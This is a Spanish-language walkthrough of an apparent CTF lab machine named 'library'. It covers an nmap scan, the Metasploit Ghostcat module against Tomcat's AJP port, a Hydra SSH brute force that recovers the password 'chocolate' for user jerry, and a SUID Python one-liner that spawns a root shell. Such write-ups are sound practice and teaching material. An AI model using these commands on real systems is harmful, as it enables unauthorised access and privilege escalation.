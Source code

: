 ```yaml
---
Maquina: library
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241106085442.png]]

Como vemos que tiene el puerto 8080 abierto vamos a realizar una exploración web un poco precoz, a ver que logramos ver.

![[Pasted image 20241106085610.png]]

Aparece un apache tomcat 9.0.30 así que vamos a analizar subdirectorios y revisar las vulnes que pueda tener esta versión.

Por ahora he pasado dirb, gobuster y analizado código fuente (página principal) y explorado a ver si tenía posibles vulnes y nada. Así que vamos a explorar otro puerto.

Vamos a probar con el puerto 8009 que pertenece al Apache JServ, para ello vamos a utilizar la consola de metasploit y el módulo auxiliary/scanner/http/tomcat_ghostcat, este puede confirmar si tenemos acceso de lectura o incluso ejecución de código.

Los comandos ejecutados serían algo así:

```bash
msfconsole #iniciamos la consola de metasploit
search tomcat_ghostcat #Buscamos el modulo
use X #sustituir x por el modulo que toque
show options #Mirar las opciones del modulo y configurarlas segun gustos
run
```

Y tenemos la siguiente resolución ->

![[Pasted image 20241106093122.png]]

Si nos fijamos en el comentario, vemos como le saluda a un tal jerry. Así que ya tenemos un usuario para intentar hacer fuerza bruta en el SSH

```bash
hydra -l jerry -P ~/wordlists/rockyou.txt ssh://172.17.0.2 -t 16 -s 5000
```

Y sorpresita ->

![[Pasted image 20241106093304.png]]

Ya tenemos el passwd de jerry -> chocolate.

![[Pasted image 20241106093357.png]]

Parece que funciona correctamente, ahora toca ver si podemos escalar privilegios ;)

Si probamos sudo -l nos dirá que no reconoce sudo... Pero podemos probar a ver que ficheros encontramos con el bit SUID y que pertenezcan a root ->

```bash
find / -perm -4000 -user root 2>/dev/null
```

![[Pasted image 20241106100242.png]]

y si probamos con python podemos ver lo siguiente ->

```bash
./python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![[Pasted image 20241106100302.png]]

Pasaremos a ser root ;)